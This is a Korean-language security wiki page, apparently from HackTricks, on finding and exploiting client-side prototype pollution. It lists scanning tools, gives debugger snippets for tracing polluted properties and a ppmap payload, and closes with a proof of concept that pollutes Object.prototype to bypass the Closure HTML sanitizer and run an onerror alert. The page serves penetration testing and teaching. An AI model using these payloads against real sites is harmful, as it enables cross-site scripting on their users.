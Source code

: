 # 클라이언트 사이드 프로토타입 오염

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 자동 도구를 사용한 발견

도구 [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **및** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) 를 사용하여 **프로토타입 오염 취약점**을 **찾을 수 있습니다**.

또한, **브라우저 확장 프로그램** [**PPScan**](https://github.com/msrkp/PPScan)을 사용하여 **접속하는 페이지**를 **자동으로** **스캔**하여 프로토타입 오염 취약점을 찾을 수 있습니다.

### 속성이 사용되는 위치 디버깅 <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Prototype Pollution의 근본 원인 찾기 <a href="#id-5530" id="id-5530"></a>

프로토타입 오염 취약점이 도구에 의해 식별되면, 코드가 지나치게 복잡하지 않은 경우, Chrome 개발자 도구에서 `location.hash`, `decodeURIComponent` 또는 `location.search`와 같은 키워드를 검색하여 취약점을 찾을 수 있습니다. 이 접근 방식은 JavaScript 코드의 취약한 부분을 정확히 찾아내는 데 도움이 됩니다.

더 크고 복잡한 코드베이스의 경우, 취약한 코드를 발견하는 간단한 방법은 다음 단계를 포함합니다:

1. 도구를 사용하여 취약점을 식별하고 생성자에서 속성을 설정하도록 설계된 페이로드를 얻습니다. ppmap에서 제공하는 예시는 다음과 같을 수 있습니다: `constructor[prototype][ppmap]=reserved`.
2. 페이지에서 실행될 JavaScript 코드의 첫 번째 줄에 중단점을 설정합니다. 페이로드로 페이지를 새로 고치고 이 중단점에서 실행을 일시 중지합니다.
3. JavaScript 실행이 일시 중지된 동안, JS 콘솔에서 다음 스크립트를 실행합니다. 이 스크립트는 'ppmap' 속성이 생성될 때 신호를 보내어 그 출처를 찾는 데 도움을 줍니다:
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
4. **소스** 탭으로 돌아가서 “스크립트 실행 재개”를 선택합니다. JavaScript는 계속 실행되며, 'ppmap' 속성이 예상대로 오염됩니다. 제공된 스니펫을 활용하면 'ppmap' 속성이 오염되는 정확한 위치를 식별할 수 있습니다. **호출 스택**을 검사하면 오염이 발생한 다양한 스택을 관찰할 수 있습니다.

어떤 스택을 조사할지 결정할 때, JavaScript 라이브러리 파일과 관련된 스택을 목표로 하는 것이 유용합니다. 프로토타입 오염은 이러한 라이브러리 내에서 자주 발생하기 때문입니다. 라이브러리 파일에 연결된 스택을 검사하여 관련 스택을 식별합니다(오른쪽에 표시된 이미지와 유사하게). 4행과 6행과 같이 여러 스택이 있는 경우, 4행의 스택이 논리적인 선택입니다. 이는 오염의 초기 발생을 나타내며, 따라서 취약점의 근본 원인입니다. 스택을 클릭하면 취약한 코드로 이동합니다.

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## 스크립트 가젯 찾기

가젯은 **PP 취약점이 발견되면 악용될 코드**입니다.

애플리케이션이 간단하다면, **`srcdoc/innerHTML/iframe/createElement`**와 같은 **키워드**를 **검색**하고 소스 코드를 검토하여 **JavaScript 실행으로 이어지는지** 확인할 수 있습니다. 때때로 언급된 기술이 가젯을 전혀 찾지 못할 수 있습니다. 그런 경우, 순수 소스 코드 검토를 통해 아래 예와 같은 멋진 가젯을 발견할 수 있습니다.

### Mithil 라이브러리 코드에서 PP 가젯 찾기 예시

이 글을 확인하세요: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## 취약한 라이브러리를 위한 페이로드 재컴파일

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## PP를 통한 HTML 세정기 우회

[**이 연구**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)는 일부 HTML 세정기 라이브러리에서 제공하는 **세정기를 우회하기 위해 사용할 PP 가젯**을 보여줍니다:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## References

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
